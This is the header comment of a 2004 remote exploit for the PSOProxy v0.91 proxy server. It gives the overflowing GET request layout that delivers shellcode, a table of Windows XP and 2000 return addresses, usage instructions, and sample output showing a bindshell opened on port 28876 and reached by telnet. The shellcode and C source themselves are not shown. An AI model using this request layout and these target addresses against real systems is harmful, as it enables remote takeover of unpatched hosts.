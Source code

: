 EXP
---

    /*

         Copyright © Rosiello Security

              http www rosiello org
            ================

     -== Remote Exploit for PSOProxy version v0.91 ==--
     Code by: rave
     Contact: rave@rosiello.org
     Date: Feb 2004
     Bug found by: Donato Ferrante

     There is a vulnerability found in the PSOProxy server.
     An attacker can execute arbitrary code exploiting remotely a buffer overflow.

        The exploit sends:

        GET / <1021 x A><adres of the shellcode><shellcode>

     This spawns a bindshell on the victim at port 28876..


     Usage <C:\>psoproxy-exploit.exe <target host> <target number>
     Target Number           Target Name                             Stack Adress
     =============           ===========                             ===========
     0                       Demo                                    0xBADC0DED
     1                       Windows XP Home Edtion SP1.             0x00D2FDDA
     2                       Windows XP Pro Edtion SP1.              0x00EDFDDC
     3                       Win2k Pro Edtion.                       0x00BBFDDC



     <C:\> psoproxy-exploit localhost 1
     [+] Winsock Inalized
     [+] Trying to connect to localhost:8080
     [+] socket inalized
     [+] Overflowing string is Prepared
     [+] Connected.
     [+] Overflowing string had been send


     <C:\> telnet localhost 28876
     Microsoft Windows XP [versie 5.1.2600]
     (C) Copyright 1985-2001 Microsoft Corp.

     <D:\>

     DO NOT USE THIS CODE ON DIFFERENT MACHINES BUT YOURS!!!
     Respect the law as we do!




       Special Tankz to:
       opy   { win2k 0wnage !! ty for lending me ur box }
       B0f   { Hope to work with u again in the futhure like we do all the time }
       Dragnet  { Always willing to help me out }
       Angelo  { Verry good maffio`so }
